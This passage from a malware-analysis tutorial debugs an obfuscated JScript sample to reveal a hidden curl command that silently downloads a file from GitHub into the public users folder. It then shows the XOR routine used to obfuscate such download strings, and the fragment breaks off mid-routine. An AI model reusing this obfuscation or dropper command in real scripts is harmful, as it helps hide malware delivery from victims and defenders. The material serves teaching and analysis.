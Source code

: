 so it seems we are using a living off the land binary!

don't worry, the nasty formatting cleans up later 😄  okay, set another breakpoint on line 29, like so:

**debug> sb("obfuscated.js",29)**

now, you should see three new variables, we need the final values of those, so let's watch them, and unwatch the other three we set earlier:

```
unwatch("fsh35h35h35h353h5r")
unwatch("llgll325h3l5l4")
unwatch("vffvfvrt9bvwetr8bwrt8bwrb8w")

watch("bnnbn6hn64jn46j4n3jn4")
watch("qswfg3yh35h35")
```

then, type `watchers` again, and prepare to be amazed!  It's all three variables fully spelled out now!

the reason for this is that the for loop was obviously incrementing character by character and that's why it was displayed in that nasty vertifical format.

however, now, we have three new variables that cleanly join each variable array together and clean everything up nicely as you can now see:

```
debug> watchers
  0: bnnbn6hn64jn46j4n3jn4 = 'curl -k -f -s -L '
  1: njgpwoeotgoo7u3upo35h5bho = 'https://raw.githubusercontent.com/g3tsyst3m/elevationstation/main/elevationstation/elevationstation.cpp'
  2: qswfg3yh35h35 = ' -o c:/users/public/thedroppedfile'
```

And there you have it!  We successfully debugged the obfuscated AND decoded that nasty .js malware sample statically, without actually executing the link.  Good news is, it's harmless as this is just an exercise and it would have downloaded my elevationstation.cpp file to your public users directory.

***The Encoding Routine***
-

So, how would a hacker go about making one of these nasty scripts?  It's fairly trivial if you know basic javascript if I'm being honest.  I could have simplfied this by only using one variable instead of three for the strings, but splitting up the variable strings adds further obfuscation to your code:

```js
//encoder.js
		var encodedURI = [];
		var encoded = [];
		var ccc = "curl -k -f -s -L ";
		var lastccc=" -o c:/users/public/thedroppedfile";
		var thelink="https://raw.githubusercontent.com/g3tsyst3m/elevationstation/main/elevationstation/elevationstation.cpp"; <-- file we want to download to the 'victim'
		var sizeof1=ccc.length;
		var sizeof2=lastccc.length;
		var sizeof3=thelink.length;
		for (a=0;a<sizeof1;a++)
		{
		encoded[a]=ccc.charCodeAt(a) ^ 72; <-- XOR encoding using the decimal value '72' 
		}
		WScript.Echo("curl encoded: " + encoded);
		for (a=0;a<sizeof2;a++)
		{
		encoded[a]=lastccc.charCodeAt(a) ^ 72; <-- XOR encoding using the decimal value '72' 
		}
		WScript.Echo("last part of curl encoded: " + encoded);
```